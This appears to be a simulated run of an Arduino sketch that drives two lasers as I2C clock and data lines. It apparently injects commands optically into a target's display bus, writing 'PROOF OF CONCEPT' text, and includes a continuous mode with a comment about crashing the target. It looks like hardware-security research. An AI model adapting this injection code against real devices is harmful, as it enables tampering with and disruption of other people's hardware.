
Simulated run of this sketch. Board: Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Parts: output pins drawn as LEDs (lit = HIGH). The test bench sets the inputs (shaded band); at power-on: pin 11 (pushbutton) HIGH. Pins used as bus, display or sensor lines are not drawn.

Above: at 1.2 s.
1.3 s: pin 11 (pushbutton) pulled LOW for 0.15 s
At 3.7 s:

4.4 s: pin 11 (pushbutton) pulled LOW for 1 s
At 6.82 s:

8.3 s: pin 11 (pushbutton) pulled LOW for 3.2 s
At 9.1 s:

13.1 s: pin 11 (pushbutton) pulled LOW for 1 s
At 15.52 s:

Timing chart, 0 to 18.0 s (numbered marks = the images above; inputs shaded):


The sketch:

20240426.1532_Arduino_Uno_attacker_quad_alpha_display.ino
```cpp
#define SDA 0xAA
#define SCL 0x55

const unsigned int green_led_indicator_pin = 5;
const unsigned int red_led_indicator_pin = 6;
const unsigned int laser_SCL_pin = 9;
const unsigned int laser_SDA_pin = 8;
const unsigned int speed_test_photodiode_pin = 10;
const unsigned int pushbutton = 11;

const unsigned int I2C_bit_interval = 2; // 10 (old---milliseconds)

// Works reliably at 39 µs; fails to register at 37 µs; corrupted data at 38 µs.
const unsigned long I2C_bit_interval_microseconds = 100; // µs
// 40 µs corresponds to 25 kbps, or 25 kHz.
// THe laser speed was about 100 µs, so we only expected 10 KHz.


void setup() {
  pinMode(red_led_indicator_pin, OUTPUT);
  pinMode(green_led_indicator_pin, OUTPUT);
  pinMode(LED_BUILTIN, OUTPUT);
  pinMode(laser_SCL_pin, OUTPUT);
  pinMode(laser_SDA_pin, OUTPUT);
  pinMode(pushbutton, INPUT_PULLUP);
  pinMode(speed_test_photodiode_pin, INPUT);
  all_lasers_off();
  Serial.begin(9600);
  // laser_speed_test(SCL);
}

void led_on(void) {
  digitalWrite(LED_BUILTIN, HIGH);
}

void led_off(void) {
  digitalWrite(LED_BUILTIN, LOW);
}

void red_led_on(void) {
  digitalWrite(red_led_indicator_pin, HIGH);
}

void red_led_off(void) {
  digitalWrite(red_led_indicator_pin, LOW);
}

void green_led_on(void) {
  digitalWrite(green_led_indicator_pin, HIGH);
}

void green_led_off(void) {
  digitalWrite(green_led_indicator_pin, LOW);
}

void cooperative_blink(void) {
  const unsigned int blink_interval = 1000;
  static enum states {off, on} state = off;
  static unsigned long time_of_last_state_change = 0;
  unsigned long now = millis();

  if (now - time_of_last_state_change > blink_interval) {
    switch (state) {
      case off:
        led_on();
        state = on;
        break;
      case on:
        led_off();
        state = off;
        break;
      default:
        led_off();
        state = off;
        break;
    }
    time_of_last_state_change = now;
  }
}

/*
   This function never returns.
*/

void halt_with_error_indication(void) {
  red_led_off();
  green_led_off();
  all_lasers_off(); // for safety
  for (;;) {
    const unsigned long speed = 120;
    green_led_off();
    red_led_on();
    delay(speed);
    red_led_off();
    green_led_on();
    delay(speed);
  }
}

bool speed_test_photodiode(void) {
  return (!digitalRead(speed_test_photodiode_pin));
}

void all_lasers_off(void) {
  digitalWrite(laser_SDA_pin, LOW);
  digitalWrite(laser_SCL_pin, LOW);
}

void wait_for_laser_to_come_on(void) {
  unsigned long started_waiting = micros();
  const unsigned long too_long = 2000000; // two seconds
  while (!speed_test_photodiode()) {
    unsigned long now = micros();
    unsigned long interval = now - started_waiting;
    if (interval > too_long) {
      Serial.print("interval = ");
      Serial.print(interval);
      Serial.println(" µs.");
      Serial.println("in wait_for_laser_to_come_on(), timed out---halted.");
      all_lasers_off();
      halt_with_error_indication();
    }
  }
}

void wait_for_laser_to_go_off(void) {
  unsigned long started_waiting = micros();
  const unsigned long too_long = 2000000; // two secondws
  while (speed_test_photodiode()) {
    unsigned long now = micros();
    unsigned long interval = now - started_waiting;
    if (interval > too_long) {
      Serial.print("interval = ");
      Serial.print(interval);
      Serial.println(" µs.");
      Serial.println("in wait_for_laser_to_go_off(), timed out---halted.");
      all_lasers_off();
      halt_with_error_indication();
    }
  }
}

void laser_on(unsigned which_laser) {
  switch (which_laser) {
    case SDA:
      digitalWrite(laser_SDA_pin, HIGH);
      break;
    case SCL:
      digitalWrite(laser_SCL_pin, HIGH);
      break;
    default:
      all_lasers_off();
      Serial.println("in laser_on(), halting from switch()");
      halt_with_error_indication();
  }
}

void laser_off(unsigned which_laser) {
    switch (which_laser) {
    case SDA:
      digitalWrite(laser_SDA_pin, LOW);
      break;
    case SCL:
      digitalWrite(laser_SCL_pin, LOW);
      break;
    default:
      all_lasers_off();
      Serial.println("in laser_off(), halting from switch()");
      halt_with_error_indication();
  }
}

/*
 * These functions together look for single or double click or long press.
 */

enum attacks {single_click, double_click, long_press} selected_attack = single_click;

bool simple_button_pressed(void) {
  return !digitalRead(pushbutton);
}

void debounce(void) {
  delay(50);
}

bool button_pressed_or_long_press(void) {
  if (simple_button_pressed()) {
    unsigned long time_button_first_pressed = millis();
    green_led_on();
    debounce();
    green_led_off();
    while (simple_button_pressed()) {
      const unsigned long_press_interval = 1000; // one second
      if ((millis() - time_button_first_pressed) > long_press_interval) {
        selected_attack = long_press;
        return true;
      }
    }
    debounce();
    selected_attack = single_click;
    // but wait a little longer in case we get another click
    unsigned long started_waiting_for_double_click = millis();
    const unsigned long double_click_interval = 500; // half a second
    while ((millis() - started_waiting_for_double_click) < double_click_interval) {
      if (simple_button_pressed()) {
        green_led_on();
        selected_attack = double_click;
        break;
      }
    }
    debounce();
    green_led_off();
    delay(750); // short pause to ensure double click is not followed by a spurious click.
    return true;
  }
  return false;
}

void aim_lasers_one_cycle(void) {
  red_led_on();
  all_lasers_on();
  delayMicroseconds(I2C_bit_interval_microseconds);
  all_lasers_off();
  delay(250);
  red_led_off();
}

void simple_aim_lasers(void) {
  // returns when the button is pressed, AFTER having been released.
  if (simple_button_pressed()) {
    while (simple_button_pressed()) {
      aim_lasers_one_cycle();
    }
  }
  debounce();
  while (!simple_button_pressed()) {
    aim_lasers_one_cycle();
  }
  all_lasers_off();
  delay(500); // wait to make sure button released.
  return;
}

/*
void laser_SDA_on(void) {
  laser_on(SDA);
}

void laser_SDA_off(void) {
  laser_off(SDA);
}

void laser_SCL_on(void) {
  laser_on(SCL);
}

void laser_SCL_off(void) {
  laser_off(SCL);
}
*/

void all_lasers_on(void) {
  laser_on(SDA);
  laser_on(SCL);
}

void laser_speed_test(unsigned which_laser) {
  all_lasers_off();
  Serial.println("Beginning laser speed test");

  while (true) {
    switch(which_laser) {
      case SDA:
        Serial.print("SDA: ");
        break;
      case SCL:
        Serial.print("SCL: ");
        break;
      default:
        Serial.print("???: ");
        break;
    }
    unsigned long time_laser_commanded_on = micros();
    laser_on(which_laser);
    wait_for_laser_to_come_on();
    unsigned long time_laser_seen_to_appear = micros();
    delay(50); // time to settle down
    laser_off(which_laser);
    unsigned long time_laser_commanded_off = micros();
    wait_for_laser_to_go_off();
    unsigned long time_laser_seen_to_go_away = micros();

    unsigned long turn_on_latency = time_laser_seen_to_appear - time_laser_commanded_on;
    unsigned long turn_off_latency = time_laser_seen_to_go_away - time_laser_commanded_off;
    Serial.print("turn-on latency = ");
    Serial.print(turn_on_latency);
    Serial.print(" µs; turn-off-latency = ");
    Serial.print(turn_off_latency);
    Serial.print(" µs. The laser is ");
    if (turn_on_latency < 500 && turn_off_latency < 500) {
      Serial.println("fast.");
    }
    else {
      Serial.println("slow.");
    }
    delay(1000); // wait a second
  } // while
}

void SDA_low(void) {
  laser_on(SDA);
}

void SDA_high(void) {
  laser_off(SDA);
}

void SCL_low(void) {
  laser_on(SCL);
}

void SCL_high(void) {
  laser_off(SCL);
}

void wait(void) {
  delayMicroseconds(I2C_bit_interval_microseconds);
}

void wait_half(void) {
  delayMicroseconds(I2C_bit_interval_microseconds / 2);
}

void I2C_start_condition(void) {
  // precondition: SDA and SCL are both high.
  SDA_low();
  wait();
  SCL_low();
  // postcondition: SDA and SCL are both low.
}

void I2C_stop_condition(void) {
  // precondition: SDA is high; SCL is low.
  SDA_low();
  wait();
  SCL_high();
  wait();
  SDA_high();
  wait();
  // postcondition: SDA and SCL are both high.
}

// Write a bit to I2C bus
void I2C_write_bit(bool bit) {
  // precondition: SCL is low
  wait_half();
  // change SDA only when SCL is low.
  if (bit) {
    SDA_high();
  } else {
    SDA_low();
  }
  wait_half();
  SCL_high();
  wait();
  SCL_low();
  // postcondition: SCL is low
}

void I2C_wait_for_ACK(void) {
  // precondtion: SCL is low.
  // SDA should only change when SCL is low.
  wait_half();
  SDA_high(); // release SDA
  wait_half();
  SCL_high();
  wait();
  SCL_low();
  // postcondition: SCL is low.
}

// Write a byte to I2C bus. Return 0 if ack by the target.
bool I2C_write_byte(unsigned char byte) {
  unsigned bit;
  // precondition: SCL is low.
  for (bit = 0; bit < 8; ++bit) {
    I2C_write_bit((byte & 0x80) != 0);
    byte <<= 1;
  }
  I2C_wait_for_ACK();
  // postcondition: SCL is low.
}

uint16_t displayRAM[8];
uint8_t order_of_displays[] = {0x71, 0x72, 0x73, 0x70};

void show_on_address(uint8_t addr) {
  I2C_start_condition();
  I2C_write_byte((addr << 1) | 0); // 0 for write;
  I2C_write_byte(0); // tell it memory address 0
  for (int i = 0; i < 8; i++) {
    I2C_write_byte(displayRAM[i] & 0xff);
    I2C_write_byte(displayRAM[i] >> 8);
  }
  I2C_stop_condition();
}

void clear_displayRAM(void) {
  memset(&displayRAM[0], 0, sizeof displayRAM);
}

// Digits are numbered 1--4 oat a particular address, e.g., 0x70.
void light_up_segment_A(int digit) {
  displayRAM[0] |= 1 << (digit - 1);
}

void light_up_segment_B(int digit) {
  displayRAM[1] |= 1 << (digit - 1);
}

void light_up_segment_C(int digit) {
  displayRAM[2] |= 1 << (digit - 1);
}

void light_up_segment_D(int digit) {
  displayRAM[3] |= 1 << (digit - 1);
}

void light_up_segment_E(int digit) {
  displayRAM[4] |= 1 << (digit - 1);
}

void light_up_segment_F(int digit) {
  displayRAM[5] |= 1 << (digit - 1);
}

void light_up_segment_G1(int digit) {
  displayRAM[6] |= 1 << (digit - 1);
}

void light_up_segment_G2(int digit) {
  displayRAM[0] |= 1 << (4 + digit - 1);
}

void light_up_segment_H(int digit) {
  displayRAM[1] |= 1 << (4 + digit - 1);
}

void light_up_segment_J(int digit) {
  displayRAM[2] |= 1 << (4 + digit - 1);
}

void light_up_segment_K(int digit) {
  displayRAM[3] |= 1 << (4 + digit - 1);
}

void light_up_segment_N(int digit) {
  displayRAM[4] |= 1 << (4 + digit - 1);
}

void light_up_segment_M(int digit) {
  displayRAM[5] |= 1 << (4 + digit - 1);
}

void light_up_segment_L(int digit) {
  displayRAM[6] |= 1 << (4 + digit - 1);
}

void character_A(int place) {
  light_up_segment_F(place);
  light_up_segment_E(place);
  light_up_segment_A(place);
  light_up_segment_B(place);
  light_up_segment_C(place);
  light_up_segment_G1(place);
  light_up_segment_G2(place);
}

void character_C(int place) {
  light_up_segment_A(place);
  light_up_segment_F(place);
  light_up_segment_E(place);
  light_up_segment_D(place);
}

void character_D(int place) {
  light_up_segment_A(place);
  light_up_segment_B(place);
  light_up_segment_C(place);
  light_up_segment_D(place);
  light_up_segment_M(place);
  light_up_segment_J(place);
}

void character_E(int place) {
  light_up_segment_A(place);
  light_up_segment_F(place);
  light_up_segment_E(place);
  light_up_segment_D(place);
  light_up_segment_G1(place);
}

void character_F(int place) {
  light_up_segment_E(place);
  light_up_segment_F(place);
  light_up_segment_A(place);
  light_up_segment_G1(place);
  light_up_segment_G2(place);
}

void character_G(int place) {
  light_up_segment_A(place);
  light_up_segment_F(place);
  light_up_segment_E(place);
  light_up_segment_D(place);
  light_up_segment_C(place);
  light_up_segment_G2(place);
}

void character_I(int place) {
  light_up_segment_A(place);
  light_up_segment_J(place);
  light_up_segment_M(place);
  light_up_segment_D(place);
}

void character_K(int place) {
  light_up_segment_E(place);
  light_up_segment_F(place);
  light_up_segment_G1(place);
  light_up_segment_K(place);
  light_up_segment_N(place);
}

void character_L(int place) {
  light_up_segment_F(place);
  light_up_segment_E(place);
  light_up_segment_D(place);
}

void character_M(int place) {
  light_up_segment_E(place);
  light_up_segment_F(place);
  light_up_segment_H(place);
  light_up_segment_J(place);
  light_up_segment_B(place);
  light_up_segment_C(place);
}

void character_N(int place) {
  light_up_segment_E(place);
  light_up_segment_F(place);
  light_up_segment_H(place);
  light_up_segment_N(place);
  light_up_segment_C(place);
  light_up_segment_B(place);
}

void character_O(int place) {
  light_up_segment_A(place);
  light_up_segment_B(place);
  light_up_segment_C(place);
  light_up_segment_D(place);
  light_up_segment_E(place);
  light_up_segment_F(place);
}

void character_P(int place) {
  light_up_segment_A(place);
  light_up_segment_B(place);
  light_up_segment_G1(place);
  light_up_segment_G2(place);
  light_up_segment_E(place);
  light_up_segment_F(place);
}

void character_R(int place) {
  light_up_segment_A(place);
  light_up_segment_B(place);
  light_up_segment_G2(place);
  light_up_segment_N(place);
  light_up_segment_E(place);
  light_up_segment_G1(place);
  light_up_segment_F(place);
}

void character_S(int place) {
  light_up_segment_A(place);
  light_up_segment_H(place);
  light_up_segment_G2(place);
  light_up_segment_C(place);
  light_up_segment_D(place);
}

void character_T(int place) {
  light_up_segment_A(place);
  light_up_segment_J(place);
  light_up_segment_M(place);
}

void character_X(int place) {
  light_up_segment_H(place);
  light_up_segment_K(place);
  light_up_segment_L(place);
  light_up_segment_N(place);
}

void character_Y(int place) {
  light_up_segment_H(place);
  light_up_segment_K(place);
  light_up_segment_M(place);
}

void character_dash(int place) {
  light_up_segment_G1(place);
  light_up_segment_G2(place);
}

void character_star(int place) {
  light_up_segment_G1(place);
  light_up_segment_G2(place);
  light_up_segment_J(place);
  light_up_segment_M(place);
  light_up_segment_H(place);
  light_up_segment_N(place);
  light_up_segment_L(place);
  light_up_segment_K(place);
}

void proof_of_concept(void) {
  red_led_on();
  clear_displayRAM();
  character_P(1);
  character_R(2);
  character_O(3);
  character_O(4);
  show_on_address(0x71);
  clear_displayRAM();
  character_F(1);
  // space
  character_O(3);
  character_F(4);;
  show_on_address(0x72);
  clear_displayRAM();
  // space
  character_C(2);
  character_O(3);
  character_N(4);
  // space
  show_on_address(0x73);
  clear_displayRAM();
  character_C(1);
  character_E(2);
  character_P(3);
  character_T(4);
  show_on_address(0x70);
  red_led_off();
}

void do_not_look_into(void) {
  red_led_on();
  clear_displayRAM();
  character_D(1);
  character_O(2);
  // space
  character_N(4);
  show_on_address(order_of_displays[0]);
  clear_displayRAM();
  character_O(1);
  character_T(2);
  // space
  character_L(4);;
  show_on_address(order_of_displays[1]);
  clear_displayRAM();
  character_O(1);
  character_O(2);
  character_K(3);
  // space
  show_on_address(order_of_displays[2]);
  clear_displayRAM();
  character_I(1);
  character_N(2);
  character_T(3);
  character_O(4);
  show_on_address(order_of_displays[3]);
  red_led_off();
}

void continuous_attack(void) {
  while (!simple_button_pressed()) {
    proof_of_concept();
    delay(10); // anything other than 10 will reliably crash the target.
  }
}

void loop() {
  cooperative_blink();

  if (button_pressed_or_long_press()) {
    switch (selected_attack) {
      case single_click:
        proof_of_concept();
        break;
      case double_click:
        continuous_attack();
        break;
      case long_press:
        simple_aim_lasers();
        break;
      default:
        halt_with_error_indication();
        break;
    }
  }
}
```

Measured:
- after the input at 1.3 s, pin 5 (green_led_indicator_pin): LOW → HIGH at once, → LOW 0.05 s later; pin 6 (red_led_indicator_pin): LOW → HIGH after 1.5 s, → LOW 0.14 s later
- after the input at 4.4 s, pin 5 (green_led_indicator_pin): LOW → HIGH at once, → LOW 0.05 s later; pin 6 (red_led_indicator_pin): LOW → HIGH after 2.3 s, → LOW 0.14 s later
- after the input at 8.3 s, pin 5 (green_led_indicator_pin): LOW → HIGH at once, → LOW 0.05 s later; pin 6 (red_led_indicator_pin): LOW → HIGH after 1.0 s, → LOW 2.3 s later, → HIGH 0.05 s later; pin 13 (LED_BUILTIN): stops changing and stays HIGH
- after the input at 13.1 s, pin 5 (green_led_indicator_pin): LOW → HIGH after 0.50 s, → LOW 0.05 s later; pin 6 (red_led_indicator_pin): HIGH → LOW at once, → HIGH 2.3 s later, → LOW 0.14 s later; pin 13 (LED_BUILTIN): HIGH → LOW after 0.50 s, → HIGH 2.0 s later, → LOW 1.0 s later, → HIGH 1.0 s later
